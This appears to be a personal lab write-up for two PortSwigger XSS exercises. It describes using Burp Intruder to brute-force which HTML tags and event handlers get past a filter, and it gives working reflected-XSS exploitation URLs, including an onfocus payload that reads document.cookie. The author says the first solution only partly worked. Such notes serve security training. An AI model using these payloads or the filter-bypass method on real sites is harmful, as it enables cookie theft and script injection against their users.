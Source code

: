 ## Lab: https://portswigger.net/web-security/cross-site-scripting/contexts/lab-html-context-with-most-tags-and-attributes-blocked
## Solution (didn't work all the way because triggerring windows resize event could be done through JS) however the process is good for finding bypassing WAF
1. try XSS standard vector
```html
<img src=1 onerror=print()>
```
2. intercept the request with burp and send to `intruder`
3. add a payload sign between emtpy tags `<§§>`
4. copy all the tags from the XSS cheatsheet (https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)
5. brute force and notice the 200 OK generated with the `body` tag
6. set up the next attack in intruder using `<body%20§§=1>`
7. copy all the events from the XSS cheatsheet and start the bruteforce
8. you find that the `onresize` event gave a 200 OK
9. this means that we need to get a POC working with **that tag** as well as **that event**

### Exploitation URL
```
https://your-lab-id.web-security-academy.net/?search=%22%3E%3Cbody%20onresize=print()%3E" onload=this.style.width='100px'
```

---

## Lab: Reflected XSS into HTML context with all tags blocked except custom ones (https://portswigger.net/web-security/cross-site-scripting/contexts/lab-html-context-with-all-standard-tags-blocked)

### Exploitation URL:
```
https://your-lab-id.web-security-academy.net/?search=<xss+id=x+onfocus=alert(document.cookie) tabindex=1>#x'
```

- This injection creates a `custom tag` with the `ID` x, 
- which contains an `onfocus` event handler that triggers the alert function.
- The hash at the end of the URL focuses on this element as soon as the page is loaded, causing the alert payload to be called

this custom tag will execute if the tag button is pressed or if you switch context to the browser

```html
<xss id=x onfocus=alert(1) tabindex=1>
```
---
